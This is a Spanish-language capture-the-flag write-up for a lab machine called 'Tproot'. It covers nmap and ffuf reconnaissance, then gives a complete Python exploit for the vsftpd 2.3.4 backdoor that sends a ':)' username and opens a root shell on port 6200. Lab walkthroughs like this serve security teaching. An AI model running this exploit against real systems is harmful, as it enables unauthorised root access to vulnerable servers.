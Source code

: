 ```yaml
---
description: '🧠Dificultad: Muy fácil | 🔓25/07/2025'
---
```


# Tproot

## 🕵️ Reconocimiento

Comenzamos con un escaneo de puertos con `nmap` :

<div align="left"><figure><img src="../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure></div>

Vemos que el login anónimo en el servidor FTP da fallo. El puerto 80 aloja un servidor web con la página por defecto de apache en el directorio raíz. Si le hacemos un listado de directorios, no encontramos nada relevante.

```bash
ffuf -w /usr/share/wordlists/SecLists-2025.2/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt:FUZZ -u http://$IPTARGET/FUZZ
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Si buscamos algún exploit para los puertos encontrados, vemos que existe uno para el puerto `ftp` :

<div align="left"><figure><img src="../../.gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure></div>

Esta versión de `FTP` presenta una vulnerabilidad de manera que si introducimos un nombre de usuario en el login del `FTP`  terminado en `:)` , se abre una backdoor en el puerto 6200 (más [info](https://www.broadcom.com/support/security-center/attacksignatures/detail?asid=33416)).

## 🚪 Ganando acceso

Utilicé un exploit hecho en `python`  con la librería `socket` :

```python
#!/usr/bin/python3

import socket
import argparse
import time
import sys

parser = argparse.ArgumentParser(description='vsftpd 2.3.4 backdoor exploit')
parser.add_argument('-host', dest='host', required=True, help='IP del objetivo')
args = parser.parse_args()

host = args.host
ftp_port = 21
shell_port = 6200

# Paso 1: Enviar usuario malicioso por FTP
print(f"[+] Conectando al FTP en {host}:{ftp_port}")
try:
    s = socket.create_connection((host, ftp_port), timeout=5)
    banner = s.recv(1024).decode()
    print(f"[+] Banner recibido: {banner.strip()}")
    
    s.sendall(b'USER backdoor:)\r\n')
    s.recv(1024)  # leer respuesta

    s.sendall(b'PASS cualquiercosa\r\n')
    s.recv(1024)
    s.close()
except Exception as e:
    print(f"[-] Error al conectar al FTP: {e}")
    sys.exit(1)

# Esperar a que se abra la shell
print("[*] Esperando a que se active la backdoor (puerto 6200)...")
time.sleep(2)

# Paso 2: Conectarse al puerto 6200
print(f"[+] Intentando conexión a {host}:{shell_port}")
try:
    shell = socket.create_connection((host, shell_port), timeout=5)
    print("[+] ¡Conectado! Shell activa. Puedes escribir comandos. Usa 'exit' para salir.\n")

    while True:
        cmd = input("$ ")
        if cmd.strip().lower() == "exit":
            break
        shell.sendall((cmd + "\n").encode())
        time.sleep(0.5)
        data = shell.recv(4096)
        print(data.decode(errors='ignore'))

    shell.close()
except Exception as e:
    print(f"[-] No se pudo conectar al puerto 6200: {e}")
    sys.exit(1)
```

Al ejecutar el exploit, ganamos acceso con una shell como `root` :

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
